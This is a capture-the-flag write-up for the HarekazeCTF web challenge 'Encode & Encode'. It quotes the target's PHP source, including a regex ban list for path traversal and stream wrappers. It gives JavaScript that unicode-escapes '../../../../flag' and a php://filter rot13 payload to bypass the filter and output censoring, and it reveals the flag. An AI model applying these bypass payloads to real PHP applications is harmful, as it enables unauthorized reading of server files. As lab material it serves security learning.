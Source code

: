# Encode & Encode

Category: Web<br/>
Author: st98

I made a strong WAF, so you definitely can’t read the flag!

## Solution

The important part of the source code is:

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

There is a file inclusion which allows us to read the `flag` file. Unfortunately we can't use `..` to get to the flag.
It turns out that `json_decode` converts unicode codepoints into characters. With this the `is_valid` check can be
circumvented:

```js
const path = '../../../../flag';

const escapedPath = path.split('').map(c =>
     '\\u' + c.charCodeAt(0).toString(16).padStart(4, '0')
).join('');

console.log(escapedPath);
```

This gives the (ceonsored) content of the flag: `HarekazeCTF{<censored>}`. To circumvent the data exfiltration I used
[the rot13 protocol / wrapper](https://www.php.net/manual/en/wrappers.php).

```js
const path = 'php://filter/read=string.rot13/resource=../../../../flag';

const escapedPath = path.split('').map(c =>
     '\\u' + c.charCodeAt(0).toString(16).padStart(4, '0')
).join('');

console.log(escapedPath);
```

This returned `UnerxnmrPGS{ghehgnen_gnggnggn_evggn}` which can be rot13 decoded to
`HarekazeCTF{turutara_tattatta_ritta}`.
